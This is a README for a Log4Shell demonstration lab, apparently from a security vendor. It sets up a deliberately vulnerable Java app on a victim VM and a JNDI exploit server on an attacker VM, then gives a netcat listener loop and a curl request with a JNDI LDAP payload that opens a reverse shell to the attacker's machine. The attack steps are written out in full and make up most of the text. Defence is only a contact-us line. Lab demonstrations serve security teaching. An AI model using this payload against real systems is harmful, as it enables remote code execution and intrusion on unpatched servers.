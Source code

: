 # log4shell-demo-lab
These are instructions for setting up a minimal lab to demonstrate the log4shell exploit. 
We are going to use two virtual machines.  These instructions were tested with Ubuntu 
18.04 LTS, but should work on newer versions.

## Preparing the Victim Machine

Install OpenJDK 8
```
sudo apt install -y openjdk-8-jdk
```

For the vulnerable app we are going to use a most excellent application 
forked from **christophetd/log4shell-vulnerable-app** with a very 
minor addition.

```
git clone https://github.com/ColorTokens-Labs/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
./gradlew assemble
```

The **gradlew** command will download a bunch of stuff, just let it finish.

You are now ready to launch the vulnerable application.  I am launching this
as the user **www-data** because that's what web applications usually run as.

```
export JAVA_TOOL_OPTIONS="-Dcom.sun.jndi.ldap.object.trustURLCodebase=true"
sudo --preserve-env=JAVA_TOOL_OPTIONS -u www-data java -jar build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar
```

If all has gone well, your screen should look like this:

![Spring App on the Victim Machine](docs/images/spring-app-on-victim.png)

## Preparing the Attacker's System

Install OpenJDK and Maven.

```
sudo apt install -y openjdk-8-jdk maven
```

We are using a JNDI Exploit server forked from **zzwlpx/JNDIExploit**.  Get it
from this github and build it.

```
git clone https://github.com/ColorTokens-Labs/JNDIExploit.git
cd JNDIExploit.git
mvn package
```

Now run the JNDI server.

```
java -jar target/JNDIExploit-1.0-SNAPSHOT.jar -i <Attacker VM IP (this machine)>
```

Your screen should look like this:

![JNDI server on the attacker's machine](docs/images/JNDI-on-C2C-server.png)

This completes the setup of the attacker and victim systems.

## Executing the exploit

With the vulnerable application running on the victim machine, and the JNDI exploit
server running on the attacker's machine, open two new session windows to the attacker's machine.

On first window, run the following command to listen for inbound reverse shell 
connections.  We are using port tcp/12345.  The **while** loop simply resrtarts the listener
when you are done with an interactive reverse shell session.

```
while [ true ]; do nc -nvlp 12345; done
```

On the second window, we will initiate the HTTP request that triggers the Log4shell exploit.
For convenience create variables for the IP addresses:

```
export my_ip=<Attacker VM IP (this machine)>
export victim_ip=<Victim VM IP>
```

You can now generate the HTTP request using this line as-is:

```
curl ${victim_ip}:8080 -H 'X-Api-Version: ${jndi:ldap://'"${my_ip}"':1389/Basic/ReverseShell/'"${my_ip}"'/12345}'
```

Congratulations! You should have received a shell to the Victim's machine on the first window.  
This is a basic shell without much stabilization.  Type **exit** when finished, and you will be
able to initiate the HTTP request again for another shell.

## Defending against the exploit

For instructions on defending against this with Xshield and Xprotect please 
[contact me](mailto:venky.raju@colortokens.com).
